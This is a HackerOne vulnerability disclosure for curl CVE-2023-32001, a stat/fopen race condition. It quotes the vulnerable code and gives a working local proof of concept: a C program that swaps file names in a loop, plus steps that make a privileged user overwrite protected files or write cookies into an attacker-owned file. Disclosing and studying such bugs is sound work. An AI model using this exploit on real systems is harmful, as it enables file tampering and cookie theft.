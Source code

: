 # [curl] CVE-2023-32001: fopen race condition

## Report Details
- **Report ID**: 2078571
- **URL**: https://hackerone.com/reports/2078571
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-21T03:35:02.243Z
- **Disclosed**: 2023-07-27T12:18:12.287Z

## Reporter
- **Username**: selmelc
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Hello, I'm reporting for CVE-2023-32001 on curl which was resolved in last Wednesday's curl release.

### Vulnerability explanation: 
As we can see in the following curl code (line 59-61 https://github.com/curl/curl/blob/fb802b521af997230b65174a559f5c419520e142/lib/fopen.c ): 
```C
  if(stat(filename, &sb) == -1 || !S_ISREG(sb.st_mode)) {
    /* a non-regular file, fallback to direct fopen() */
    *fh = fopen(filename, FOPEN_WRITETEXT);
...
}
...
```
There is a race condition between the moment "stat(filename, &sb)" is executed and the moment " fopen(filename, FOPEN_WRITETEXT);" is executed.
This leads to undesirable behavior such as an attacker tricking a privileged user to overwrite protected files, or since this function (Curl_fopen) is also used for storing cookies an attacker could trick another user to send those cookies that might be very sensible to a file fully owned and controlled by the attacker.

###POC/Steps to reproduce:
Before we start, I will be using a little program called "rename". Which simply swaps atomically the names of two files to be able to showcase this race condition. Here is its code :
```
#include <strings.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

Open two terminals, with two different users. One will be the attacker terminal and the other the victim. 
In both POCs, the victim  will want to execute a command such as "curl --cookie-jar a google.com" thinking the file "a" doesn't exist.

###A) Exploiting this vulnerability to trick a user to overwrite a file they own:

Assume the current directory of both attacker(selmelc) and victim (root) looks like this
```SHELL
lrwxrwxrwx 1 selmelc selmelc     4 Jun 27 07:11 a -> flag
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 07:11 b
-rw-r--r-- 1 root    root        6 Jun 27 07:05 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename
```
The attacker executes ./rename a b, which will not stop to swap the name of the directory "b" and the symlink "a". 

The victim executes their command "curl --cookie-jar a google.com".
The race condition is successfully exploited if in the vulnerable code the stat identifies the file "a" as a directory and then the "fopen" opens the symlink that points to the file "flag".
If that happened then the results looks like this :
```
...
-rw-r--r-- 1 root    root      131 Jun 27 07:13 flag
...
root@deb:/home/selmelc/Documents# cat flag
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.
```
Additional note: 
You might think "well that's just how symlinks work"... To clarify on that, by default if the victim was executing  "curl --cookie-jar a google.com" without the attacker exploiting the vuln. a different behavior would occur ; the file "a" would be erased (no more symlink) and overwritten as a regular file containing the cookie data. This happens because the stat function follows symbolic links therefore in that scenario we would not enter the vulnerable condition which leads to the race condition.

###B) Exploiting this vulnerability to steal the victim's cookies and hide it from them:

As this uses the same logic as the previous exploit for this vuln. Repeat same steps except this time we want the "flag" file to be owned by the attacker as following:
```
lrwxrwxrwx 1 selmelc selmelc     4 Jun 27 08:42 a -> flag
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 08:41 b
-rw--w--w- 1 selmelc selmelc     0 Jun 27 08:41 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename

```
Normal curl behavior after the victim executed  "curl --cookie-jar a google.com" :
```
-rw------- 1 root    root      131 Jun 27 08:49 a
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 08:41 b
-rw--w--w- 1 selmelc selmelc     0 Jun 27 08:41 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename
```
Behaviour when vulnerability is exploited (and race condition met) : 
```
drwxrwxrwx 2 selmelc selmelc  4096 Jun 27 08:41 a
lrwxrwxrwx 1 selmelc selmelc     4 Jun 27 08:50 b -> flag
-rw--w--w- 1 selmelc selmelc   131 Jun 27 08:51 flag
-rwxr-x--- 1 selmelc selmelc 16608 Jun 27 07:04 rename
```
We can notice the 131 bytes of output in flag now, which would contain the sensitive cookies.

## Conclusion

An attacker is able to overwrite files they shouldn't have access to, however the attacker does not control the data sent to those files. (Integrity, potentially availability issues if files likes /etc/passwd are modified through this).
An attacker may also gain access to sensitive data (cookies), and even hide that information from the intended receiver as the attacker may control the file in which this information will be leaked.
Note : cookie storing was used to demonstrate exploits for the vulnerability but the vulnerability also affects HSTS and alt-svc cache.

## Impact

This race condition modifies the behavior of symbolic link files in affected components, they might be followed instead of being overwritten when the condition is met leading to undesired and potentially destructive behavior.

## Attachments
No attachments

